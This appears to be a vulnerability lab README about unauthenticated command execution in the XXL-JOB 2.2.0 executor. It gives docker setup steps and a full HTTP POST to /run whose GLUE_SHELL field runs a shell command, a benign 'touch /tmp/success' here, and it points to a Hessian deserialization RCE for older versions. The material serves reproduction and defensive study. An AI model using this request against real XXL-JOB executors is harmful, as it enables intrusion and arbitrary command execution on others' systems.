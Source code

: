 # XXL-JOB Executor Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

XXL-JOB is a distributed task scheduling platform with core design goals of rapid development, simple learning, lightweight, and easy extensibility. It is now open source and has been integrated into many companies' production lines, ready to use out of the box. 

XXL-JOB is divided into two parts: admin and executor, where the former is the backend management page and the latter is the task execution client. The executor has no authentication configured by default, allowing unauthorized attackers to execute arbitrary commands through the RESTful API.

References:

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## Environment Setup

Execute the following command to start XXL-JOB version 2.2.0:

```
docker compose up -d
```

After the environment is started, you can access the management end (admin) at `http://your-ip:8080` and the client end (executor) at `http://your-ip:9999`.

## Vulnerability Reproduction

Send the following data packet to the client (executor) to execute commands:

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

The command `touch /tmp/success` has been successfully executed:

![](2.png)

Additionally, for XXL-JOB versions below 2.2.0 that don't have a RESTful API, we can execute commands through [Hessian deserialization](https://github.com/OneSourceCat/XxlJob-Hessian-RCE).

